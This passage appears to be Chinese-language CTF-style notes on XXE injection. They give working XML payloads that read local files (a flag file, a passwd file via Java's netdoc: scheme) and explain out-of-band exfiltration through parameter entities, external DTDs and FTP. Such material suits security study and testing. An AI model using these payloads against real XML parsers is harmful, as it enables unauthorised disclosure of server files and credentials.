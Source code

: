 



### 有回显读取本地文件(Norm XXE)



Payload:

```xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///tmp/flag.txt">]>
<person><name>&xxe;</name></person>
```

![image-20240705205255954](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240705205255954.png)



### 使用 netdoc 的 XXE 攻击

主要将file://换成netdoc:/

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
        <!ELEMENT data (#PCDATA)>
        <!ENTITY file SYSTEM "netdoc:/e:/passwd">
        ]>
<user>
    <name>netdoc</name>
    <sex>netdoc</sex>
    <age>&file;</age>
</user>
```





一些基本的绕过：https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/#%E7%BB%95%E8%BF%87%E5%9F%BA%E6%9C%AC-XXE-%E6%94%BB%E5%87%BB%E7%9A%84%E9%99%90%E5%88%B6





### OOB XXE

但是，你想想也知道，本身人家服务器上的 XML 就不是输出用的，一般都是用于配置或者在某些极端情况下利用其他漏洞能恰好实例化解析 XML 的类，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法------外带



想要外带就必须能发起请求，**那么什么地方能发起请求呢？ 很明显就是我们的外部实体定义的时候**，其实光发起请求还不行，我们还得能把我们的数据传出去，而我们的数据本身也是一个对外的请求，也就是说，我们需要在请求中引用另一次请求的结果，分析下来只有我们的参数实体能做到了(并且根据规范，我们必须在一个 DTD 文件中才能完成“请求中引用另一次请求的结果”的要求)



**Java在Blind XXE的利用上**，读取文件会有些问题，在PHP中，我们可以使用 `php://filter/read=convert.base64-encode/resource=/etc/hosts` 方法将文本内容进行base64编码。但是Java中没这样的编码方法，所以**如果要读取换行的文件，一般使用FTP协议**，HTTP协议会由于存在换行等字符，请求发送失败。
